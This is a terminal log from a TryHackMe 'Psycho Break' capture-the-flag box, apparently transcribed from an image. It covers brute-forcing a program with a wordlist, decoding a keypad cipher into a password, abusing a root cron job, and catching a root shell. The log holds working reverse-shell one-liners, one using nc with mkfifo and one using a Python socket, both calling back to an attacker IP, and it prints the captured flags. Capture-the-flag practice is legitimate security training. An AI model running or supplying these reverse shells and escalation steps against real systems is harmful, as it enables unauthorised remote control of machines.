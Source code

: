 ```html
kali@kali:~/CTFs/tryhackme/Psycho Break$ strings random.dic > brute.txt
kali@kali:~/CTFs/tryhackme/Psycho Break$ while read LINE; do ./program "$LINE"; done < brute.txt | grep Correct
kidman => Correct
kali@kali:~/CTFs/tryhackme/Psycho Break$ ./program kidman
kidman => Correct

Well Done !!!
Decode This => 55 444 3 6 2 66 7777 7 2 7777 7777 9 666 777 3 444 7777 7777 666 7777 8 777 2 66 4 33

https://keypad-translator.glitch.me/

k i d m a n s p a s s w o r d i s s o s t r a n g e

KIDMANSPASSWORDISSOSTRANGE

kidman

kidman@evilwithin:~$ cat user.txt 
4C72A4EF8E6FED69C72B4D58431C4254

kidman@evilwithin:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )

*/2 * * * * root python3 /var/.the_eye_of_ruvik.py

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.106.222 9001 >/tmp/f

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.106.222",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);

kali@kali:~/CTFs/tryhackme/Psycho Break$ nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.172.137 57536
bash: cannot set terminal process group (1763): Inappropriate ioctl for device
bash: no job control in this shell
root@evilwithin:~# cat /root/root.txt
cat /root/root.txt
BA33BDF5B8A3BFC431322F7D13F3361E
root@evilwithin:~# 
```
